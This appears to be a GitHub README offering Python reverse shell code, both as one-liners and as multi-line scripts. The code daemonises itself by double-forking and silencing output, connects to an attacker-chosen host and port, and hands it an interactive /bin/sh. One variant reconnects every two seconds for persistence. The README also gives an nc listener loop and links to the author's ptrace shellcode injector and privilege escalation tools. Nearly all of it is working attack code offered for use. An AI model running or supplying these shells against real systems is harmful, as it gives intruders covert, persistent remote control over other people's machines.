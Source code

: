 # Python 2 & 3 reverse shell one liner detached (background) By David Reguera Garcia aka Dreg

just change **connect(("127.0.0.1",9999))**

## Simple background detached reverse shell:
```
python -c 'exec("""\nimport socket,subprocess,os,sys\n\npidrg = os.fork()\nif pidrg > 0:\n        sys.exit(0)\n\nos.chdir("/")\n\nos.setsid()\n\nos.umask(0)\n\ndrgpid = os.fork()\nif drgpid > 0:\n        sys.exit(0)\n\nsys.stdout.flush()\n\nsys.stderr.flush()\n\nfdreg = open("/dev/null", "w")\n\nsys.stdout = fdreg\n\nsys.stderr = fdreg\n\nsdregs=socket.socket(socket.AF_INET,socket.SOCK_STREAM)\n\nsdregs.connect(("127.0.0.1",9999))\n\nos.dup2(sdregs.fileno(),0)\n\nos.dup2(sdregs.fileno(),1)\n\nos.dup2(sdregs.fileno(),2)\n\np=subprocess.call(["/bin/sh","-i"])\n""")'
```

## Infinite loop background detached reverse shell each 2 seconds:
```
 python -c 'exec("""\nimport socket,subprocess,os,sys, time\n\npidrg = os.fork()\nif pidrg > 0:\n        sys.exit(0)\n\nos.chdir("/")\nos.setsid()\nos.umask(0)\ndrgpid = os.fork()\nif drgpid > 0:\n        sys.exit(0)\n\nwhile 1:\n        try:\n                sys.stdout.flush()\n\n                sys.stderr.flush()\n\n                fdreg = open("/dev/null", "w")\n\n                sys.stdout = fdreg\n\n                sys.stderr = fdreg\n\n                sdregs=socket.socket(socket.AF_INET,socket.SOCK_STREAM)\n\n                sdregs.connect(("127.0.0.1",9999))\n\n                os.dup2(sdregs.fileno(),0)\n\n                os.dup2(sdregs.fileno(),1)\n\n                os.dup2(sdregs.fileno(),2)\n\n                p=subprocess.call(["/bin/sh","-i"])\n\n                sdregs.close()\n\n        except Exception:\n                pass\n\n        time.sleep(2)\n""")'
```

Just wait for reverse shell with a nc
```
while true; do nc -lvp 9999; done
```

---

I made this for my shellcode injector in sudo shells via ptrace:

https://github.com/David-Reguera-Garcia-Dreg/drx_ptrace_shellcode_injector

https://github.com/David-Reguera-Garcia-Dreg/ptrace_misconfiguration_local_privilege_escalation

https://github.com/David-Reguera-Garcia-Dreg/

http://www.fr33project.org

dreg@fr33project.org

## multi line code

### Simple reverse shell 

```
#!/usr/bin/env python

# David Reguera Garcia aka Dreg
# https://github.com/David-Reguera-Garcia-Dreg/
# http://www.fr33project.org
# dreg@fr33project.org

import socket,subprocess,os,sys

pidrg = os.fork()
if pidrg > 0:
	sys.exit(0)

os.chdir("/")

os.setsid()

os.umask(0)

drgpid = os.fork()
if drgpid > 0:
	sys.exit(0)

sys.stdout.flush()

sys.stderr.flush()

fdreg = open("/dev/null", "w")

sys.stdout = fdreg

sys.stderr = fdreg

sdregs=socket.socket(socket.AF_INET,socket.SOCK_STREAM)

sdregs.connect(("127.0.0.1",9999))

os.dup2(sdregs.fileno(),0)

os.dup2(sdregs.fileno(),1)

os.dup2(sdregs.fileno(),2)

p=subprocess.call(["/bin/sh","-i"])
```

### Infinite loop reverse shell each 2 seconds

```
#!/usr/bin/env python

# David Reguera Garcia aka Dreg
# https://github.com/David-Reguera-Garcia-Dreg/
# http://www.fr33project.org
# dreg@fr33project.org

import socket,subprocess,os,sys, time

pidrg = os.fork()
if pidrg > 0:
        sys.exit(0)

os.chdir("/")
os.setsid()
os.umask(0)
drgpid = os.fork()
if drgpid > 0:
        sys.exit(0)

while 1:
        try:
                sys.stdout.flush()

                sys.stderr.flush()

                fdreg = open("/dev/null", "w")

                sys.stdout = fdreg

                sys.stderr = fdreg

                sdregs=socket.socket(socket.AF_INET,socket.SOCK_STREAM)

                sdregs.connect(("127.0.0.1",9999))

                os.dup2(sdregs.fileno(),0)

                os.dup2(sdregs.fileno(),1)

                os.dup2(sdregs.fileno(),2)

                p=subprocess.call(["/bin/sh","-i"])

                sdregs.close()

        except Exception:
                pass

        time.sleep(2)
```

---

http://jagt.github.io/python-single-line-convert/
